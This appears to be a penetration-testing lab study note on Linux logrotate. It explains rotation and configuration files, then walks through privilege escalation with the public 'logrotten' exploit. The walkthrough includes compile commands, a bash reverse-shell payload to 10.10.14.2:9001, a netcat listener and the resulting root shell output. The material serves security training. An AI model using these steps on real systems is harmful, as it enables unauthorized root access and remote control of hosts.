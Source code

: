 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Logrotate

Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called **logrotate** takes care of archiving or disposing of old logs.

`Logrotate` has many features for managing log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

## logrotate Config Files

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```shell-session
sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
McClewR@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
McClewR@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

## Privilege Escalation

To exploit `logrotate`, we need some requirements that we have to fulfil.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

{% code title="Command" %}
```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
{% endcode %}

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

{% code title="Command" %}
```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
{% endcode %}

{% code title="Example Output" %}
```
create
```
{% endcode %}

In this example, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our machine, which waits for the target system's connection.

```bash
nc -nlvp 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

{% code title="Command" %}
```bash
./logrotten -p ./payload /tmp/tmp.log
```
{% endcode %}

{% code title="NetCat Listener Output" %}
```bash
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
